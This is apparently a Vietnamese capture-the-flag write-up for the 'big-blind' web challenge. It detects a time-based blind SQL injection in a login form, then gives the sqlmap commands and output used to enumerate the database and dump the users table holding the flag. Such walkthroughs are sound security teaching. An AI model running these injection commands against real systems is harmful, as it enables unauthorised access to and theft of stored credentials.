# big-blind

## Description

https://big-blind.hsc.tf

## Solution

Dựa vào tiêu đề ta có thể phần nào đoán ra được đây là một chall SQLI , tôi thử nhập vào form một acount bất kì thì nó ném ra một thông báo lỗi :

![img](img/img8.png)

Thử tiếp với một kí tự nháy đơn thì xuất hiện lỗi "Internal Server Error". Ok đến đây ta có thể xác định đây là một chall Blind Sql để tiết kiệm thời gian tôi dùng sqlmap để thực hiện inject .

```
sqlmap -u "https://big-blind.hsc.tf/" --method POST --data "user=a&pass=a" --level 2 --dbs 

available databases [4]:
[*] db
[*] information_schema
[*] mysql
[*] performance_schema

```

Sau khi sử dụng sqlmap ta xác định được đây là lỗi blind time-base và ta sẽ chú ý vào 'database: db'.Tiếp theo là lấy ra các bảng trong database này .
```
sqlmap -u "https://big-blind.hsc.tf/" --method POST --data "user=a&pass=a" --level 2 --technique T -D db --tables

Database: db
[1 table]
+-------+
| users |
+-------+
```

Ta tìm được bảng "users", tiếp tục lấy ra các cột .

```
sqlmap -u "https://big-blind.hsc.tf/" --method POST --data "user=a&pass=a" --level 2 --technique T -D db -T users --columns

+--------+--------------+
| Column | Type         |
+--------+--------------+
| user   | varchar(255) |
| pass   | varchar(255) |
+--------+--------------+
```

Tôi thu được hai cột là "user" và "pass" , cuối cùng ta sẽ xuất dữ liệu từ hai cột này ra .

```
sqlmap -u "https://big-blind.hsc.tf/" --method POST --data "user=a&pass=a" --level 2 --technique T -D db -T users --dump

Database: db
Table: users
[1 entry]
+-----------------------------+--------+
| pass                        | user   |
+-----------------------------+--------+
| flag{any_info_is_good_info} | admin  |
+-----------------------------+--------+
```

